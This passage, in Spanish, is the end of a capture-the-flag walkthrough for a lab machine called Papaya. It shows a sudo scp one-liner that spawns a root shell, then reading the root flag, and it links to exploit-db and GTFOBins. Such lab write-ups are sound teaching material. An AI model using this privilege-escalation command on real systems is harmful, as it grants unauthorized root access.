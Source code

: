 <p align="center">
<img src="/assets/images/THL-writeup-papaya/Captura14.png">
</p>

Apliquemos los pasos en un oneliner:
```bash
papaya@papaya:~$ TF=$(mktemp) && echo 'bash 0<&2 1>&2' > "$TF" && chmod +x "$TF" && sudo scp -S "$TF" x y:
root@papaya:/home/papaya# whoami
root
```
Genial, ya somos **Root**.

Busquemos la última flag:
```bash
root@papaya:/home/papaya# cd /root
root@papaya:~# ls
root.txt
root@papaya:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.elkarte.net/
* https://www.exploit-db.com/exploits/52026
* https://gtfobins.github.io/gtfobins/scp/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
